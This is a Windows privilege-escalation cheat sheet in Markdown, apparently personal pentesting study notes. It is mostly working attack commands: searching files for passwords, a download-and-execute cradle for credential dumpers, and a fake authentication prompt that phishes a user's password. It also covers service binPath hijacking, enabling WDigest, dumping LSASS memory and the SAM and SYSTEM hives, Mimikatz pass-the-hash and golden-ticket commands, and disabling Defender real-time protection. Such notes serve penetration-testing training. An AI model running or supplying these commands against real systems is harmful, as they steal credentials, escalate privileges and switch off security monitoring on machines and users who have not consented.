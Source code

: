 ```yaml
---
title: "3 - Windows Privesc"
classes: single
header:  
  teaser: /assets/images/posts/adx/adx-teaser3.jpg
  overlay_image: /assets/images/main/header5.jpg
  overlay_filter: 0.5
ribbon: Firebrick
excerpt: "Intro to Windows Privesc"
description: "Intro to Windows Privesc"
categories:
  - notes
  - adx
tags:
  - begginer
  - AD
  - Windows 
toc: true
---
```


# Privesc

```powershell
> Local Enum

net localgroup Users
net localgroup Administrators
```

```powershell
whoami
whoami /all
net users
net accounts
```

```powershell
dir env: = enum envinroment variables

wmic bios 
wmic volume
```

```powershell
> network 

ipconfig /all
route print
arp -A
netstat -ano
net share
net use
wmic netuse list full
netsh firewall show state
netsh firewall show config
```


```powershell
cmd /c “dir /b /a /s c:\ > C:\Users\dir.txt”

then we can:
type dir.txt | findstr /i passw
type dir.txt | findstr /i ssh
type dir.txt | findstr /i kdbx //keePass Files database
type dir.txt | findstr /i vnc

other files:
unattend.xml or Unattended.xml
sysprep.inf or sysprep.xml
web.config
.bak, .log, .cnf, .conf, .ini, .xml, .txt, .gpg, .pgp, id_rsa, id_dsa, .ovpn, .rdp, vnc, ssh
```

```powershell
> credential manager

cmdkey /list
runas /savecred /user:<user> cmd.exe
```

dump credentials:
```powershell
iex (New-Object System.Net.WebClient).DownloadString("<link>");Enum-Creds or Get-VaultCredential
```

[github dumpCredStore](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/dumpCredStore.ps1)

[github Get-VaultCredential](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-VaultCredential.ps1)

- Ask for the password for the user logged on the same machine (phishing attempt)

```powershell
$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::UserName,[Environment]::UserDomainName);$cred.getnetworkcredential().password

$cred =$host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\admin',[Environment]::UserDomainName);$cred.getnetworkcredential().password
```


SessionGopher:
```powershell
find saved sessions of Putty, WinSCP, SuperPutty, FileZilla, RDP 
```


## Common Vulnerabilities
```powershell
- unquoted path
- weak file permissions - accessChk -uwcqv <user> *
→ sc config <service> binPath= <exe file>

- powerup
- jaws
- win suggestion
```


## LSASS
```powershell
Set the key ‘UseLogonCredential’ to 1:
C:\ red add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f

PS > C:\rundll32.exe User32.dll,LockWorkStation
```

extract lsass:
```powershell
1. task manager > lsass.exe > create dump file > save the dump
2. procdump: 
  a) -ma = dump all the memory
  b) -r = generate a clone of the process before the dump
  c) .\procdump64 -accepteula -r -ma lsass.exe lsass
3. comsvcs.dll : rundll32 C:\Windows\System32\comsvcs.dll MiniDump <lsass PID> lsass_comsvcs.dmp full
4. Out-Minidump: https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1
  a) . .\Out-Minidump.ps1
  b) Get-Process lsass | Out-Minidump
```


## REGISTER

> requires admin priv

extract register (sam, security, system):
```powershell
1. reg save hklm\sam .\sam
2. reg save hklm\security .\security
3. reg save hklm\system .\system
4. python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam -system system local
```


## Mimikatz
```powershell
Privilege::debug # Obtain debugging rights
Token::elevate # Impersonate a token - SYSTEM or DA (Domain Admin)
Sekurlsa::LogonPassword # Extract credentials
Sekurlsa::pth # Perform Pass-the-Hash for command execution
Lsadump::SAM # Decrypt credentials from the registry
Kerberos::ptt # Perform pass-the-ticket by injecting into memory for later use
Kerberos::Golden # Create Golden/Silver tickets
sekurlsa::lsa /patch and /inject
```

example:
```powershell
mimikatz.exe “privilege::debug” “sekurlsa::minidump <dump file> ”sekurlsa::logonpasswords" exit
Invoke-Mimikatz
```
 
Variations:

[Github SafetyKatz](https://github.com/GhostPack/SafetyKatz)

[Github pypyKatz](https://github.com/skelsec/pypykatz)



## AMSI2

AMSITrigger - search for malicious strings

> requires admin priv

disable defender:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
